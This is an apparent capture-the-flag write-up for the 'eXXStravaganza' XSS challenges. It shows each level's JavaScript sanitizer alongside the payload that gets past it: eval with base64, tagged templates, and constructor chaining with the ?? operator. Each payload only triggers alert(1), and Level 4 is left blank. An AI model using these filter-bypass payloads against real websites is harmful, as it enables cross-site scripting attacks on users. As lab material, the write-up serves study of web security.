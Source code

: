 
# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)
![](./images/xss1.png)

# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `<img>` tag :
```html
<img/src=x onerror=alert(1)>
```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4



# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\
![](./images/xss1.png)
`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```

(Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )


